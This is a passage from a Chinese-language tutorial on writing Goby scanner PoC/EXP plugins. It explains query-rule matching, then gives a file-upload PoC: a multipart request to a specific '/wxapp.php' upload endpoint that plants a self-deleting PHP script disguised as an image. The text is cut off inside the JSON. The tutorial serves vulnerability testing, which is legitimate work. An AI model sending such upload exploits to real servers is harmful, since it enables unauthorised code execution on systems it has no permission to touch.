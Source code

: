 ![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjJGCZtiaUyOJNokHYmjjMyJeBuhNk04euJ3cyPHNcQBHmG3icWQr46NeibPAXz9qSPbkibGvfTCpicrKBA/640?wx_fmt=png)

**1.2 识别规则并调用 PoC**  

经过测试发现 Goby 的 PoC 调用规则是先通过 PoC 写的查询规则去查询，如果查询到才会调用 PoC 进行扫描，否则就算你勾选了 PoC 也不会进行调用。具体得查询规则可以查看 Goby 查询语法

![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjJGCZtiaUyOJNokHYmjjMyJeNg6yUHIPdNj3nyVrFewM2tpuV20gBzibiczXibE6EVOO2Z0ibL3aYBXKVw/640?wx_fmt=png)

这里就可以发现有时候通过 PoC 管理手动测试的漏洞可以验证成功，而通过扫描的地址无法检测到存在漏洞。

**注意：有时候一些 CMS 需要自己定义一些规则，比如 body="this is test" || title="管理登录" 之类的，有时候会发现直接扫描域名无法匹配到其规则，如果扫描 IP 则会匹配到。**

![](https://mmbiz.qpic.cn/mmbiz_png/GGOWG0fficjKzq4TFicia2yUjianoH80KtrWElvrR0XQbqBDCHC68DicU6TwYLR54jEJE3rqy2icwicrV85dICfKrJsOQ/640?wx_fmt=png) **02**

**编写文件上传类 PoC 及 EXP  
**

接下来通过一个文件上传类的 PoC/EXP 来讲解一下编写过程中遇到的问题。文件上传的 PoC 规则是需要上传一个输出特定信息并且自删除的脚本。如：

```
<?php echo md5(233);unlink(__FILE__);?>
```

这样的话我们需要在 PoC 处发送两次请求，第一次进行上传文件操作，第二次对上传的文件进行访问并验证，在访问之后这个文件会自动删除。

下面贴出请求代码，讲解我通过代码块写出。

```
"ScanSteps": [
    "AND",
    {
      "Request": {
        "method": "POST",
        "uri": "/wxapp.php?controller=Goods.doPageUpload",
        "follow_redirect": false,
        //header头的设置,这里最好还是通过Burp抓包把请求头写入防止请求出错
        "header": {
          "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
          "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
          "Accept-Encoding": "gzip, deflate, br",
          "Connection": "keep-alive",
          "Upgrade-Insecure-Requests": "1",
          "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundary8UaANmWAgM4BqBSs"
        },
        "data_type": "text",
        //post数据可以从Burp中直接复制,通过Goby的图形化界面直接复制进去,这里会自动生成
        "data": "\n------WebKitFormBoundary8UaANmWAgM4BqBSs\nContent-Disposition: form-data; name=\"upfile\"; filename=\"test.php\"\nContent-Type: image/gif\n\n<?php echo md5(233);unlink(__FILE__);?>\n\n------WebKitFormBoundary8UaANmWAgM4BqBSs--"
      },
      "ResponseTest": {
        "type": "group",
        "operation": "AND",
        "checks": [
          {
            "type": "item",
            "variable": "$code",
            "operation": "==",
            "value": "200",
            "bz": ""
          },
          {
            "type": "item",
            "variable": "$body",
            "operation": "contains",
            "value": "image_o",
```